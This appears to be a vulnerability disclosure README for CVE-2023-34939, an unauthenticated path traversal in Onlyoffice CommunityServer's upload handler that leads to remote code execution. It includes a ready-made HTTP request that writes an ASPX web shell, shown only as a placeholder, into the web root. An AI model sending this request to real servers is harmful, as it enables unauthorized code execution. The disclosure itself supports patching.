 # CVE-2023-34939
RCE via Path Traversal vulnerability in **Onlyoffice CommunityServer < 12.5.2**

# Description
Onlyoffice Community Server is a collaborative platform for managing documents, projects and customer relations. Recently, a security vulnerability was discovered in this software version that could allow remote code execution (RCE) attacks.

The vulnerability is located in the UploadProgress.ashx component, which is responsible for handling file uploads. **Unauthorized** attackers can exploit this weakness by sending specially crafted requests to the server, triggering the execution of arbitrary code on the affected system.

This RCE vulnerability poses a serious risk to the security and integrity of organizations using Onlyoffice Community Server. As a result, it is highly recommended to update to the latest version of the software (v12.5.2 as for now) as soon as possible to prevent potential attacks.

**The only condition** is that there should be a thread created in the forum module.

# Proof of Concept
This PoC is for educational and research purposes only. It should not be used for malicious purposes or to cause harm to any system or network. The purpose of this PoC is to raise awareness of the vulnerability and to encourage responsible disclosure and patching.

```
POST /UploadProgress.ashx?submit=ASC.Web.UserControls.Forum.ForumAttachmentUploadHanler,ASC.Web.Community&SettingsID=11111111-1111-1111-1111-111111111111&ThreadID=3&UserID=11111111-1111-1111-1111-111111111110 HTTP/1.1
Host: REDACTED
Content-Length: 121
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary123

------WebKitFormBoundary123
Content-Disposition: form-data; name="files[]"; filename="../../../../../../../../../../../../../WebStudio/2023-34939.aspx"
Content-Type: application/asp

ASPX SHELL
------WebKitFormBoundary123--
```
Simply change the ThreadID and the file will be uploaded to the root web directory.

# Author
Kirill Firsov
[Twitter @k_firsov](https://twitter.com/k_firsov)

# References
Fixed in ["Onlyoffice CommunityServer v12.5.2"]("https://github.com/ONLYOFFICE/CommunityServer/blob/master/CHANGELOG.md#version-1252")
